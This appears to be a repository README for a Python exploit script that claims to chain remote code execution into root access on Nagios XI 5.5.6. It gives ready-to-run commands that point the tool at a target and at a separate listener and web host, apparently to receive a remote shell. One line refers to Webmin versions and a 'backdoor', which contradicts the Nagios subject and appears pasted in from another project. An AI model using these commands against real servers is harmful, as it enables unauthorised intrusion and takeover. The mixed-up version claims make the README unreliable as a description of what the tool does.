 # Nagios XI 5.5.6 Remote Code Execution and Privilege Escalation

```
1.  Nagios XI 5.5.6
```

## Explanation of the exploit
https://medium.com/tenable-techblog/rooting-nagios-via-outdated-libraries-bb79427172

### Script Usage:
#### Tested on v1.890, but should also work for other webmin versions in which this backdoor is installed.
`python3 nagiosxi.py -t https://10.10.10.10 -lh 172.16.1.2 -lp 7777 -wh 172.16.1.2 -wp 8888`

![](https://github.com/ruthvikvegunta/nagiosxi_rce-to-root/blob/master/images/root.png)

`python3 nagiosxi.py -t https://10.10.10.10 -lh 172.16.1.2 -lp 7777 -wh 172.16.1.2 -wp 8888 -shell low`

![](https://github.com/ruthvikvegunta/nagiosxi_rce-to-root/blob/master/images/low_priv.png)
